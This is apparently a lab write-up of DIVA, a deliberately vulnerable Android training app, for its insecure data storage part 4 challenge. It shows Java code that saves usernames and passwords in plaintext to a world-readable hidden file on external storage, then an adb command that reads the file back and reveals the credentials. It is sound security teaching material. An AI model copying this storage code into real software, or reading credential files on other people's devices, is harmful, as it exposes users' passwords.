 ## Insecure Data Storage - Part 4

Codice Vulnerabile:

> app/src/main/java/jakhar/aseem/diva/InsecureDataStorage4Activity.java

```
File sdir = Environment.getExternalStorageDirectory();

...

File uinfo = new File(sdir.getAbsolutePath() + "/.uinfo.txt");
uinfo.setReadable(true);
uinfo.setWritable(true);
FileWriter fw = new FileWriter(uinfo);
fw.write(usr.getText().toString() + ":" + pwd.getText().toString() + "\n");
fw.close();
```

Exploit:

- `$ adb shell cat /storage/emulated/0/.uinfo.txt`

```
john:lock
```
